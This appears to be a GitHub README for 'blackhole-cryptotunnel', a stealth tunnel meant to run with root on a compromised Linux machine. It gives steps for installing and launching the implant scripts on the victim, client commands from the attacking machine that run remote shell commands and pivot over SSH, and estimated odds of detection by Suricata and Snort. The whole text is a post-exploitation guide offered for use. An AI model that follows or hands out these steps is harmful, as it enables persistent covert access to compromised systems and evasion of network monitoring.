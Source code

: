 # blackhole-cryptotunnel
Enhanced Stealth Tunnel for Linux (Red Team Ops on compromised machine with root)

# On compromised machine:
Copy and launch a file: 
crypto_tunnel.py & enhanced_stealth_tunnel.py in /opt/enhanced-stealth-tunnel 
cd /opt/enhanced-stealth-tunnel
python3 enhanced_stealth_tunnel.py --generate-config

# Editing enhanced_tunnel_config.json
python3 enhanced_stealth_tunnel.py -c enhanced_tunnel_config.json

or launch ./enhanced_install.sh

# 2. From the attacking machine:
launch a file:
python3 enhanced_client.py 192.168.1.50 -k tunnel.key --shell "whoami"
python3 enhanced_client.py 192.168.1.50 -k tunnel.key --ssh 198.51.100.10

# A realistic estimate of the probability of detection
Basic tunnel configuration:

    Suricata: ~35-45% probability of detection
    Snort: ~25-35% probability of detection
    Combined risk: ~55-65%
